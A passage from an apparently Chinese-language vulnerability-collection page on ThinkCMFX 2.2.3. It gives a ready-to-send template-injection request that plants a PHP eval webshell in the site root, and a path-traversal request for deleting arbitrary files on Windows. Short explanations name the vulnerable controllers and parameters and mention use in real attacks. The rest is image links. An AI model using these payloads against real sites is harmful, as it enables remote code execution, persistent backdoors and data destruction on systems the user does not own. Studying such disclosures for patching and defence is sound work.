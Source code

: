 ![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId32.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId33.jpg)

#### 0x02.2 Api类模版注入1

    url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
    post:
    templateFile=/../../../public/index
    prefix=''
    content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\\application\\Comment\\Controller\\WidgetController.class.php
路径:ThinkCMFX\\application\\Api\\Controller\\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了
路径:application\\Comment\\Controller\\WidgetController.class.php
方法：public function fetch()

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId36.jpg)

从名字查看我们会发现他的3个参数

\$templateFile=模版地址 \$content=内容 \$prefix=前缀

\$templateFile就是我们要包含的文件了，我们必须包含一个不然，代码会报错，导致无法写shell
\$content 我们写马子的地方 \$prefix 忽略他即可，没有用的

在代码中我们看到一个 \$templateFile
给parseTemplate函数包含了，这里我们也不用管他，因为他的作用就是判断一下文件是否存在而已，所以我们在实战的时候，可以找到一处html文件包含即可

而tp的模版引擎 使用的是 smarty 而smarty中只要可控制内容的key 与 value
即可写入shell命令，所以同理可得，tp的 \$content 我们可控 = 有模版注入

#### 0x03 任意文件删除-只能windows删除

##### 0x03.1 漏洞演示

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId39.jpg)

    url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
    post:
    mgurl=..\..\..\..\..\1.txt

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId40.jpg)

#### 0x03.2 漏洞原理

路径：ThinkCMFX\\application\\User\\Controller\\ProfileController.class.php
方法：blic function do\_avatar(

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId42.jpg)
